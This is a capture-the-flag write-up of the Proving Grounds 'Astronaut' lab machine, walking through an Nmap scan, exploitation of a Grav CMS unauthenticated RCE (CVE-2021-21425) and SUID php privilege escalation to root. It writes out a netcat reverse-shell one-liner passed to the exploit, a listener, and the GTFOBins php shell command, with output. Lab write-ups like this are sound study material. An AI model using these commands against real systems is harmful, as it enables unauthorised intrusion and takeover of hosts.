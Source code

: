 ```yaml
---
title: "Proving grounds Play: Astronaut"
layout: post
date: 2023-10-05 03:00
categories: writeup
---
```


Proving grounds Practice - Astronaut CTF writeup.

## Nmap

```text
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 984e5de1e697296fd9e0d482a8f64f3f (RSA)
|   256 5723571ffd7706be256661146dae5e98 (ECDSA)
|_  256 c79baad5a6333591341eefcf61a8301c (ED25519)
80/tcp open  http    Apache httpd 2.4.41
|_http-title: Index of /
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-03-17 17:46  grav-admin/
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp open  http - Apache httpd 2.4.41

http://192.168.192.12/grav-admin/

![img](/assets/images/CTF/Proving_Grounds/Astronaut/web.png)

Grav CMS is vulnerable to [Grav CMS Unauthenticated RCE (CVE-2021-21425)](https://www.acunetix.com/vulnerabilities/web/grav-cms-unauthenticated-rce-cve-2021-21425/).

## Exploitation

Find the remode code execution exploit from [GitHub](https://github.com/CsEnox/CVE-2021-21425).

Run the exploit as below.

```sh
naveenj@hackerspace:|06:22|~/proving_grounds/Astronaut/exploit$ python3 exploit.py -t http://192.168.192.12/grav-admin -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.198 4444 >/tmp/f'
[*] Creating File
Scheduled task created for file creation, wait one minute
[*] Running file
Scheduled task created for command, wait one minute
Exploit completed
```

**Reverse Shell**

```sh
naveenj@hackerspace:|06:24|~/proving_grounds/Astronaut/exploit$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.198] from (UNKNOWN) [192.168.192.12] 58968
sh: 0: can't access tty; job control turned off
$ 
```

## Privilege Escalation

Check the SUID binaries.

```sh
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/php7.4         #exploitable
$ 
```

Check GTFO bins for exploit.

### GTFO Bins exploit

**SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

`php -r "pcntl_exec('/bin/sh', ['-p']);"`

### Exploitation

```sh
$ which php
/usr/bin/php
$ /usr/bin/php -r "pcntl_exec('/bin/sh', ['-p']);"
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
whoami
root
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).